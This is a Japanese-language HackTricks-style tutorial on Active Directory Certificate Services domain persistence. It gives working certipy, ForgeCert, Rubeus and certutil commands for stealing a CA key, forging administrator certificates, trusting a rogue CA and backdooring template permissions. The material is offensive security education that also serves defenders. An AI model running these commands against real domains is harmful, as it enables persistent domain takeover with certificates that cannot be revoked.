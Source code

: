 # AD CS Domain Persistence

{{#include ../../../banners/hacktricks-training.md}}

**これは、[https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf)で共有されているドメイン持続性技術の概要です**。詳細については確認してください。

## 盗まれたCA証明書を使用した証明書の偽造 - DPERSIST1

証明書がCA証明書であることをどのように判断できますか？

いくつかの条件が満たされると、証明書がCA証明書であることが判断できます：

- 証明書はCAサーバーに保存されており、その秘密鍵はマシンのDPAPIによって保護されているか、オペレーティングシステムがサポートしている場合はTPM/HSMなどのハードウェアによって保護されています。
- 証明書の発行者（Issuer）および主題（Subject）フィールドがCAの識別名と一致します。
- "CA Version"拡張がCA証明書にのみ存在します。
- 証明書にはExtended Key Usage (EKU)フィールドがありません。

この証明書の秘密鍵を抽出するには、CAサーバー上の`certsrv.msc`ツールが、組み込みGUIを介してサポートされている方法です。それにもかかわらず、この証明書はシステム内に保存されている他の証明書とは異ならないため、[THEFT2技術](certificate-theft.md#user-certificate-theft-via-dpapi-theft2)などの方法を使用して抽出できます。

証明書と秘密鍵は、次のコマンドを使用してCertipyでも取得できます：
```bash
certipy ca 'corp.local/administrator@ca.corp.local' -hashes :123123.. -backup
```
CA証明書とそのプライベートキーを`.pfx`形式で取得した後、[ForgeCert](https://github.com/GhostPack/ForgeCert)のようなツールを使用して、有効な証明書を生成できます：
```bash
# Generating a new certificate with ForgeCert
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123! --Subject "CN=User" --SubjectAltName localadmin@theshire.local --NewCertPath localadmin.pfx --NewCertPassword Password123!

# Generating a new certificate with certipy
certipy forge -ca-pfx CORP-DC-CA.pfx -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=CORP,DC=LOCAL'

# Authenticating using the new certificate with Rubeus
Rubeus.exe asktgt /user:localdomain /certificate:C:\ForgeCert\localadmin.pfx /password:Password123!

# Authenticating using the new certificate with certipy
certipy auth -pfx administrator_forged.pfx -dc-ip 172.16.126.128
```
> [!WARNING]
> 証明書の偽造の対象となるユーザーは、プロセスが成功するためにアクティブであり、Active Directoryで認証できる必要があります。krbtgtのような特別なアカウントのために証明書を偽造することは効果がありません。

この偽造された証明書は、指定された終了日まで**有効**であり、**ルートCA証明書が有効である限り**（通常は5年から**10年以上**）有効です。また、**マシン**にも有効であるため、**S4U2Self**と組み合わせることで、攻撃者はCA証明書が有効である限り、**任意のドメインマシンで持続性を維持**できます。\
さらに、この方法で**生成された証明書**は、CAがそれらを認識していないため、**取り消すことができません**。

## 悪意のあるCA証明書の信頼 - DPERSIST2

`NTAuthCertificates`オブジェクトは、Active Directory（AD）が利用する`cacertificate`属性内に1つ以上の**CA証明書**を含むように定義されています。**ドメインコントローラー**による検証プロセスは、認証する**証明書**の発行者フィールドに指定された**CA**と一致するエントリを`NTAuthCertificates`オブジェクトで確認することを含みます。一致が見つかれば、認証が進行します。

自己署名のCA証明書は、攻撃者がこのADオブジェクトを制御している場合、`NTAuthCertificates`オブジェクトに追加できます。通常、**Enterprise Admin**グループのメンバーと、**forest rootのドメイン**内の**Domain Admins**または**Administrators**のみがこのオブジェクトを変更する権限を与えられます。彼らは、`certutil.exe`を使用して`NTAuthCertificates`オブジェクトを編集することができ、コマンド`certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126`を使用するか、[**PKI Health Tool**](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/import-third-party-ca-to-enterprise-ntauth-store#method-1---import-a-certificate-by-using-the-pki-health-tool)を使用します。

この機能は、ForgeCertを使用して動的に証明書を生成する以前に説明した方法と組み合わせて使用される場合に特に関連性があります。

## 悪意のある誤設定 - DPERSIST3

AD CSコンポーネントの**セキュリティ記述子の変更**を通じた**持続性**の機会は豊富です。「[ドメイン昇格](domain-escalation.md)」セクションで説明されている変更は、権限のある攻撃者によって悪意を持って実施される可能性があります。これには、以下のような敏感なコンポーネントへの「制御権」（例：WriteOwner/WriteDACLなど）の追加が含まれます：

- **CAサーバーのADコンピュータ**オブジェクト
- **CAサーバーのRPC/DCOMサーバー**
- **`CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>`**内の任意の**子孫ADオブジェクトまたはコンテナ**（例えば、証明書テンプレートコンテナ、認証局コンテナ、NTAuthCertificatesオブジェクトなど）
- デフォルトまたは組織によってAD CSを制御する権利が委任された**ADグループ**（組み込みのCert Publishersグループおよびそのメンバーなど）

悪意のある実装の例としては、ドメイン内で**権限のある**攻撃者が、デフォルトの**`User`**証明書テンプレートに**`WriteOwner`**権限を追加し、攻撃者がその権利の主体となることが含まれます。これを利用するために、攻撃者はまず**`User`**テンプレートの所有権を自分に変更します。その後、**`mspki-certificate-name-flag`**が**1**に設定され、**`ENROLLEE_SUPPLIES_SUBJECT`**が有効になり、ユーザーがリクエストにおいて代替名を提供できるようになります。続いて、攻撃者は**テンプレート**を使用して**登録**し、代替名として**ドメイン管理者**の名前を選択し、取得した証明書をDAとして認証に利用します。

{{#include ../../../banners/hacktricks-training.md}}
